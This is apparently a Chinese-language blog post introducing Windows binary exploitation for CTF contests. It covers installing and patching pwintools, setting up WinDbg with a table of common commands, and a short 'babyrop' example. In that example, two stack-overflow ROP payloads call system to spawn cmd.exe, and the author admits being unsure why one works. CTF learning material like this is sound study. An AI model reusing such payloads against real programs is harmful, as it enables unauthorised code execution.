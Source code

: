 ```yaml
---
layout: post
title:  "Windows Pwn 入门"
categories: Windows pwn 
tags: pwn
author: ble55ing
---
```


* content
{:toc}
## Windows Pwn 入门 

ctf比赛中的Windwos Pwn题目愈发的多了，学一波

### Pwintools

工欲善其事，必先利其器。如果能在windows上有类似linux的调试环境那就比较舒服了。

<https://github.com/masthoon/pwintools> Windows上的pwntools

#### 安装psutil 

有人说需要安，所以就安了

<https://pypi.python.org/packages/b9/aa/b779310ee8a120b5bb90880d22e7b3869f98f7a30381a71188c6fb7ff4a6/psutil-5.2.2.win32-py2.7.exe#md5=2068931b6b2ecd9374f9fc5fe0da652f> 

#### Python for Windwos

按照pwintools官网上的介绍，需要这个，所以安一下

https://github.com/hakril/PythonForWindows> 

#### 修改request：

pwintools需求Python for Windwos版本0.4，但github上是0.5了，所以就会报错，使用Notepad++查找包中的PythonForWindows==0.4，改成==0.5（我下载的版本是0.5），就能够成功安装完成了

#### Pwintools修改

pwintools和pwntools还是有一些区别的，可以修改pwintools里的一些东西然后再重新安一下满足需求。注意要将Python27\Lib\site-packages\PWiNTOOLS-0.3-py2.7.egg删除，pwintools-master\build\lib里的文件删除，再进行setup

我的修改：

class Process中的self.debuggerpath改为了我的windbg地址

添加sendlineafter(self, delim, line)

修改recvuntil(self, delim, timeout = None,drop =False)，添加了drop

修改p32(i)和u32(i)的struct.pack('<I', i)参数由<i到<I。

#### 常用指令

```p =Process("babyrop.exe")```

```
io.spawn_debugger()
raw_input("DEBUG: ")
```

### Windbg

官网安装

<https://docs.microsoft.com/en-us/windows-hardware/drivers/debugger/debugger-download-tools> 

下载这个Download WinDbg Preview from the Microsoft Store: [WinDbg Preview](https://www.microsoft.com/store/p/windbg/9pgjgd53tn86). 

安装。我的默认安装到了G盘，注意需要去pwintools里其改一下。

#### Windbg常用命令

F5 /g 	继续执行，类似gdb的c

F8 		单步执行，类似gdb的s

F10		单步执行，类似gdb的n

lm		列出各模块的加载基址，类似于vmmap

F9/bp	下断点，如bp 0x2a1070

bl		查看所有断点，可删除

.reload	加载程序符号表

d		查看内存数据，类似gdb的x ，用法d 0x

### 一个小例子

babyrop，一个简单栈溢出

```
payload = "0" * 0xcc + 'aaaa' + p32(system) + 'cccc' + p32(cmd)
```

这样的payload就不能成功

```
payload = "0" * 0xcc + 'aaaa' 
payload += p32(gets) + p32(pecx) + p32(cmd) 
payload += p32(system) + 'bbbb' + p32(cmd)
...
io.sendline("cmd.exe")
```

这样的payload就能成功，原因不明，第一种的cmd.exe在内存中后面只有一个/x00，之后都是数据，第二种的后面全是/x00

第一篇文章，存疑

